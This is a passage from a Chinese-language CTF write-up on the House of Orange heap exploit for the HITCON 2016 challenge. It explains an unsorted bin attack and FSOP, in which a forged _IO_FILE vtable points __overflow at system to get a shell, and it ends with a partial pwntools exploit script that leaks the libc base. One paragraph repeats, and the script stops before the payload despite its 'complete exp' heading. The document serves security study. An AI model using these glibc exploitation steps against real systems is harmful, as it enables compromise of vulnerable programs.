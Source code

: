​    因此，我们将位于unsorted bin中的chunk的size修改为0x61，因此该chunk就会被放入大小为0x60的small bin中，同时，该small bin的fd和bk都会变为此chunk的地址。

​    这样，当_IO_flush_all_lockp函数通过fp->_chain寻找下一个_IO_FILE时，就会寻找到smallbin 0x60中的chunk。只要在这个chunk中伪造好_IO_FILE结构体以及vtable，把_IO_OVERFLOW设置为system，然后就可以成功getshell了。

   这样，当_IO_flush_all_lockp函数通过fp->_chain寻找下一个_IO_FILE时，就会寻找到smallbin 0x60中的chunk。

 ![image-20211226165831107](/assets/wgpsec/images/heap/image-20211226165831107.png)

​    而这时就到了我们伪造的_IO_FILE处，我们已经把伪造的IO_FILE结构体的vtable表中偏移为3出的__overflow函数已经被篡改为system了。

 ![image-20211226165837432](/assets/wgpsec/images/heap/image-20211226165837432.png)

​    这些unsorted bin attack和FSOP的操作都是在最后执行malloc(0x10)的时候完成的。

​    至此整个调试过程分析完毕。

### 完整exp

 ```python
 from pwn import *
 
 context.log_level = 'debug'
 binary = './houseoforange_hitcon_2016'
 elf = ELF(binary)
 libc = elf.libc
 local = 1
 if local:
  p = process(binary)
 else:
  p = remote('')
 
 def add(length, name, price, color):
  p.sendlineafter(': ', '1')
  p.sendlineafter(':', str(length))
  p.sendafter(':', name)
  p.sendlineafter(':', str(price))
  p.sendlineafter(':', str(color))
 
 def show():
  p.sendlineafter(': ', '2')
 
 def edit(length, name, price, color):
  p.sendlineafter(': ', '3')
  p.sendlineafter(':', str(length))
  p.sendafter(':', name)
  p.sendlineafter(':', str(price))
  p.sendlineafter(':', str(color))
 
 #gdb.attach(p)
 
 
 add(0x10, 'verf1sh', 0x10, 1)
 
 edit(0x40, 'a'*0x18+p64(0x21)+p32(0x10)+p32(0x1f)+p64(0)*2+p64(0xfa1), 0x10, 1)
 add(0x1000, 'verf1sh', 0x10, 1)
 
 # leak libc_base
 add(0x400, 'a'*8, 0x10, 1)
 show()
 p.recvuntil('a'*8)
 libc_base = u64(p.recv(6).ljust(8, '\x00')) - 1640 - 0x10 - libc.sym['__malloc_hook']
 success('libc_base -> {}'.format(hex(libc_base)))
 _IO_list_all = libc_base + libc.sym['_IO_list_all']
 system = libc_base + libc.sym['system']
 ```